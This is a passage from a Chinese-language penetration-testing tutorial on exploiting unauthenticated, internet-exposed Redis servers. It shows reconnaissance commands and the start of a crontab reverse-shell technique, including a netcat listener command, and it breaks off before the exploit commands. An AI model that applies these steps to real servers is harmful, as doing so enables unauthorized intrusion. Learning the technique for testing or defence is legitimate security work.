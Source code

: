 [![](assets/1702372985-8ff4ddeabc1b8925bfb1d8eb004aeabf.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/WEB/Redis/6.png)

登录的结果可以看出该redis服务对公网开放，且未启用认证。

```plain
    > info   # 查看 redis 版本信息、一些具体信息、服务器版本信息等等:
    > CONFIG GET dir # 获取默认的 redis 目录
    > CONFIG GET dbfilename # 获取默认的 rdb 文件名
```

举例输入info,查看到大量敏感信息。

[![](assets/1702372985-e4d0d08133d68102982b7cc0240e4935.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/WEB/Redis/7.png)

#### [](#2-%E5%88%A9%E7%94%A8crontab%E5%8F%8D%E5%BC%B9shell "2.利用crontab反弹shell")2.利用crontab反弹shell[](#2-%E5%88%A9%E7%94%A8crontab%E5%8F%8D%E5%BC%B9shell)

在 redis 以 root 权限运行时可以写 crontab 来执行命令反弹 shell

先在自己的kali/服务器上监听一个端口nc -nlvp 5678

[![](assets/1702372985-6b246f8aaa9dcfa1cdad581a4f47e1b8.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/WEB/Redis/8.png)

然后通过未授权访问连接上服务器执行命令
